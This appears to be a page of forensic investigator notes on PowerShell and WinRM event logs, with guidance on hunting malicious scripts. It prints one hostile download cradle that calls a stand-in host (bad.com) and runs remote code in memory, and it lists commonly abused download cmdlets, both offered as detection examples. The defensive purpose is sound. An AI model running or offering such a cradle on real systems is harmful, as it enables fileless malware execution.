 Most logging is not enabled by default, so the data might not be available when needed. However, Microsoft did enable a built-in feature to automatically log any suspicious scripts, even if script block logging is disabled. This is valuable for investigators reviewing the **Microsoft-Windows-PowerShell/Operational** log, even in organisations that have not yet enabled full auditing.

**Microsoft-Windows-WinRM/Operational** log tracks WinRM connections, which happens to be the primary protocol for PowerShell remoting. The log is available on both source and destination systems. It records the destination hostname, IP, and currently logged-on user (Event ID 6), as well as the source of session creation (Event ID 91) and the authenticating user account (Event ID 168).

#### PowerShell Syntax to Achieve Stealth

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-01 130620.png" alt=""><figcaption></figcaption></figure>

**Investigator Notes**: Like many attacker behaviours, a limited set of syntax is frequently used to make malicious PowerShell activity more difficult to discover. While **(New-Object System.Net.Webclient).DownloadFile()** is the most common within many attack frameworks; it is not the only way to download files using PowerShell. Also, look for commonly abused commands like **Start-BitsTransfer** and **Invoke-WebRequest.**

**Quick Wins in the PowerShell/Operational Log**

* Event may capture different parts of an attack
  * 4103 recorks module/pipeline output
  * 4104 records code (scripts) executed (look for “Warning” events)
* The PowerShell download cradle sees heavy use in the wild:
  * IEX (New-Object Net.Webclient).downloadstring("http://bad.com/bad.ps1")
* Filter using commonly abused keywords

<figure><img src="../../.gitbook/assets/Screenshot 2023-10-01 131346.png" alt=""><figcaption></figcaption></figure>

* Look for obvious signs of encoding and obfuscation

**Investigator Notes:** As PowerShell becomes more common in the enterprise, many legitimate scripts will likely be recorded in the **PowerShell/Operational** log. Your task as an analyst is to find any evil that may be hiding among that legitimate activity.

**Note**: While EID 4104 events (script block logging) are the latest and greatest in the PowerShell auditing world, don’t ignore the older EID 4103 (module logging) events. Both events log activity from different perspectives. Module logging focuses on PowerShell pipeline execution. Almost every command uses several modules or cmdlets, and EID 4103 events can include variables, commands, interim output, and even some deobfuscation. Script logging (EID 4104) records the code blocks executed, providing excellent deobfuscation, including dynamically generated script contents, but typically no output.&#x20;

Windows will label suspicious events as EID 4104 “Warning” events. This can help the analyst distinguish from other EID 4104 events and perhaps be a good first filter run to narrow the focus to events that Windows has already identified. You may see duplicate information between the two event types, but you may also find important differences that allow a deeper understanding of an attack.

**Note**: The download cradle is one of the most dangerous (and common) PowerShell attacks in the wild today. It uses the benign PowerShell executable (or elements thereof) to execute file-less, memory-only malicious scripts downloaded from the internet. The above shows the most generic version of the cradle, but attackers have developed many ways to change or obfuscate elements to better hide from security software. The good news is obfuscation is almost, by definition, going to look strange to an analyst, by the bad news is that the analyst has a lot of log entries to find the obfuscated commands. A good list of keywords to start searching for is present in the above image. Each one of these keywords can be obfuscated by attackers. Still, one or more will usually provide solid hits, particularly since PowerShell logging also often includes the unobfuscated version of scripts. Just like hunting using other artifacts, defenders must continually be creative to find new ways attackers hide their activity.
